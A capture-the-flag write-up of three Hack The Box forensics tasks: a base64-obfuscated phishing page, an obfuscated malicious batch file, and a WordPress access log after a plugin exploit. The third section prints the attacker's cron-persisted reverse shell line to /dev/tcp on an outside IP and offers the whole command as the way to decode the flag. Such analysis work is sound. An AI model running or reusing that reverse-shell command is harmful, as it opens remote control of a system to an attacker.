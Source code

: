 ## Task 1: Spooky Phishing
Question: A few citizens of the Spooky Country have been victims of a targeted phishing campaign. Inspired by the Halloween spirit, none of them was able to detect attackers trap. Can you analyze the malicious attachment and find the URL for the next attack stage?

Flag: `HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}`

We are given the following file:
* `index.html`: HTML page containing the phishing mechanism.

Analyzing the source code, several encoded codes cane be identified in the tags highlighted.

![phishing1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/1666ccad-4bf5-44bf-9589-e6d1740d82fa)

Let us start analyzing the `<script>` tag in HTML is used to include JavaScript code in a web page. 
1. `data`: - This specifies that the URL is a data URI. 
2. `text/javascript;base64`: - This part of the URL indicates that the data is encoded as Base64 and represents `JavaScript` code.

Hence, the whole section can be decoded from Base64 and the script code can then be analyzed further.

![phishing2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/1d141eed-f3f9-43a8-beb5-68442c9baffa)

Notice how the script initiates two variables, `nn` and `aa`. These variables contain the result of the `decodeHex` function given the two hidden values as parameter each time, after the result of the `atob` function (atob decodes data that has been encoded with base64). 

![phishing3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/02f2d840-8370-4073-a19c-d30d0dd6f6a2)

One way is to analyze the `decodeHex` function. By concatenating the two hidden strings in the html file and decoding it with Base64 first and then hex, the flag can be retrieved.

![phishing4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/61292495-bd0a-44f2-b61e-28baf9658ece)

Another way is to just enter the website as it will redirect us to an error page with the flag present in its URL. However, this was just an error from HTB after getting confirmation from a HTB staff on Discord.

![phishing5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/b53a02cc-f233-49cf-add4-51b69a782d3b)

![phishing6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/9af66095-5825-4d1f-be28-05b5a727cba0)

## Task 2: Bat Problems
Question: On a chilly Halloween night, the town of Hollowville was shrouded in a veil of mystery. The infamous "Haunted Hollow House", known for its supernatural tales, concealed a cryptic document. Whispers in the town suggested that the one who could solve its riddle would reveal a beacon of hope. As an investigator, your mission is to decipher the script's enigmatic sorcery, break the curse, and unveil the flag to become Hollowville's savior.

Flag: `HTB{0bfusc4t3d_b4t_f1l3s_c4n_b3_4_m3ss}`

We are given the following file:
* `payload.bat`: Malicious bat file.

As we can see from the following image, the script contains random variables that are assigned with random values. In a batch script (a .bat or .cmd file), the set command defines and manipulates environment variables which store information that can be used by the script or other programs running in the same environment (the Command Prompt session).

![bat](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0fd21a7a-8f4c-46c9-a985-1570a57f694c)

First, the bat file can be analyzed using `Any.Run` which is a malware analyzer tool.
We will get the following result if we upload the sample on the aforementioned site.

![bat2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0e1c32ed-4f98-4d8b-8f06-350efa1761e3)

By analyzing the behavior graph, we notice three actions made:
1. The attacker can be seen using `cmd` to copy PowerShell to a different path with a random name (Earttxmxaqr.png). 
1. The attacker then uses cmd again to rename the downloaded bat file and also change it's extension to `.png.bat` to avoid detection.
1. The attacker executes the base64 encoded string using the renamed PowerShell executable (`-enc` argument in Powershell is used to pass a base64 encoded command).

![bat3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/66bc25ac-e13b-427b-917c-b51767202b0b)

By decoding the string, the flag can be retrieved.

![bat4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ff75d596-8d18-4edc-ad2d-925625bd205d)

## Task 3: Vulnerable Season
Question: Halloween season is a very busy season for all of us. Especially for web page administrators. Too many Halloween-themed parties to attend, too many plugins to manage. Unfortunately, our admin didn't update the plugins used by our WordPress site and as a result, we got pwned. Can you help us investigate the incident by analyzing the web server logs?

Flag: `HTB{L0g_@n4ly5t_4_bEg1nN3r}`

We are given the following file:
* `access.log`: Wordpress server logs.

In the log file, notice there are several requests related to a WordPress website. Analyzing the logs, `82.179.92.206` has performed the most requests out of the IP addresses, indicating a suspicious activity. So we can find the amount of times an IP addresses was involved by the number of requests.
```
cat access.log | cut -d " " -f 1 | sort | uniq -c
```

![vul](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c8fa44b3-133d-4df6-b276-c06c98c9778d)

By reading the instructions, they mentioned that the attacker may have exploited a vulnerability in a plugin. 
Hence, the search can be easier by filtering the logs using "wp-content/plugins/" which is the directory storing all the plugins. Requests from 82.179.92.206 with response status code of 200 are the key to identifying the vulnerability, as these can reveal whether the attacker's attempts were successful. 

By analyzing the logs, notice how some requests suggest that the attacker has exploited the `wp-upg` plugin since the plugin was responding with 200 OK messages. Additionally, `wp-upg` has certain vulnerabilities such as CVE-2022-4060 and CVE-2023-0039

![vul2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e0aac332-d852-458d-a5b6-39ac78ff7369)

After identifying the vulnerable plugin, the logs are analyzed further and another important log was found. These requests indicate the attacker was attempting to execute arbitrary commands on the system.

![vul3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/9a45e2a9-b710-48e1-b087-f62fd4dc2986)

One of the requests creates a cron job named `testconnect` that connects to a Command and Control (CnC) server and prints the flag.

![vul4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ccbeef90-e54d-42ba-b1e9-66a5a2495552)

![vul5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/d26940c4-9311-499f-9468-c29b2b5b990f)

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again. This can be done using the command:

```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

![vul6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a9bbfa96-a62f-49aa-8d85-7ba1410c8684)
